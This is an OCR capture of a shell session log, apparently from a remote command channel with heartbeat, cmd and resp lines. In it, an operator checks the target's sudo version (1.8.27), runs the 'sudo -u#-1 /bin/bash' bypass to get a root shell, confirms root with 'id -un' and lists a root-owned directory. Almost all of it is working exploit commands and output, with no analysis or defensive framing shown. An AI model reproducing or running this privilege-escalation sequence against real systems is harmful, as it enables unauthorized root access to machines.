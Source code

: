 ```shell
heartbeat
cmd  SHELL:sudo -V|
heartbeat
cmd grep "Sudo ver
heartbeat
cmd "
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27
cmd OK
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd SHELL:sudo -u#
heartbeat
cmd -1 /bin/bash
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OK
cmd OK
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd SHELL:id -un
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OKroot
cmd OK
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd SHELL:ls -la
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
cmd OK
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OKroottotal 33
drwx------  6 root root 4096 Jan  7 09:57 .
drwxr-xr-x 19 root root 4096 Dec 31 10:38 ..
```
